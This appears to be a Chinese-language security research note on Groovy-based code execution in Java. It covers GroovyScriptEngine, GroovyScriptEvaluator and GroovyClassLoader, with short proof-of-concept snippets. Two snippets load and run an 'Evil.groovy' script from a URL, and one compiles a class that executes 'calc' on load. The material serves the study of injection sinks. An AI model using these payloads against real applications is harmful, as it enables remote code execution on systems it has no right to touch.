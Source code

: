 比如指定系统ClassLoader去执行Evil.groovy类，无需编译，run时会自动编译

```java
public class groovyScriptEngine {
    public static void main(String[] args) throws Exception
    {
        GroovyScriptEngine gse = new GroovyScriptEngine(new URL[]{new URL("http://127.0.0.1:8888")},ClassLoader.getSystemClassLoader());
        gse.run("Evil.groovy","");
    }
}
```



## GroovyScriptEvaluator

GroovyScriptEvaluator.evaluate调用GroovyShell.evaluate

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021183009000.png)

套娃，就是修改了接收参数为ScriptSource子类，用ResourceScriptSource才能接收URL

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021183218869.png)

payload：

```java
ublic class groovyScriptEvaluator {
    public static void main(String[] args) throws Exception
    {
        UrlResource urlResource = new UrlResource(new URL("http://127.0.0.1:8888/Evil.groovy"));
        new GroovyScriptEvaluator().evaluate(new ResourceScriptSource(urlResource));
    }
}
```



## GroovyClassLoader

有loadClass和defineClass

GroovyClassLoader.parseClass支持从File，字符串加载groovy类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021190409940.png)

从代码上来看，parseClass是走了一个双亲委派的过程。definePackage 方法虽然没有显式调用父类加载器的方法，但在类加载过程中会遵循双亲委派机制

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021191507702.png)

```java
    public static void main(String[] args) throws Exception
    {
        GroovyClassLoader gcl = new GroovyClassLoader();
        Class clazz = gcl.parseClass("class Evil {\n" +
                "    static {\n" +
                "        \"calc\".execute()\n" +
                "    }\n" +
                "}");
        clazz.newInstance();
    }
```
